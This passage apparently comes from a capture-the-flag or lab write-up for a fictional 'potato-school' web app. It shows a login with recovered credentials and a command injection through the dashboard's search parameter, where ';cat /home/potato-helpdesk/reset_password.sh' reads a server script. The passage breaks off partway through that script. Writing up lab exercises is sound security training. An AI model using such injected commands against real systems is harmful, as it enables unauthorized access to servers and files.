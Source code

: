     ![CyberChef_Output](@images/2025/potato-vm-writeup/CyberChef_Output.png)

## Command Injection

21) With the Username `Shared_Account` & Password `p0tat0-sch00l-d4-b3st`, I decided to head back to the New Dashboard `https://potatos.potato-school.com/new_dashboard/login.php` & login with those credentials & was successful.

    ![Staff_Account_Login_New_Dashboard](@images/2025/potato-vm-writeup/Staff_Account_Login_New_Dashboard.png)

    Upon successful login, I did some exploration & found that when clicking the button `Search` in the `Home` tab after typing some random letters such as the letter "a", the URL showed the following:

    `https://potatos.potato-school.com/new_dashboard/staff_dashboard.php?query=a`

    Additionally, the output also showed files that had the letter "a" included inside. The file `/home/potato-helpdesk/reset_password.sh` was the most stood out the most.

    ![Staff_Dashboard_Search_Field](@images/2025/potato-vm-writeup/Staff_Dashboard_Search_Field.png)

    After many attempts to read the file with various commands like `cat /potato-helpdesk/reset_password.sh`, I decided to search online found a github repo [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md#chaining-commands) that showed the different methods of Command Injection, allowing me to successfully read the file by adding a semi-colon in front of the command: `;cat /home/potato-helpdesk/reset_password.sh`, giving the following output:

    ```
    #!/bin/bash

    # Function to display usage
    usage() {
       echo "Usage: $0 -u <username>"
       echo "Example: $0 -u student1"
       exit 1
    }

    # Check if no arguments are provided
    if [ $# -eq 0 ]; then
       usage
    fi

    # Parse command line arguments
    while getopts ":u:" opt; do
       case ${opt} in
        u )
            user=$OPTARG
            ;;
        \? )
            usage
            ;;
       esac
    done
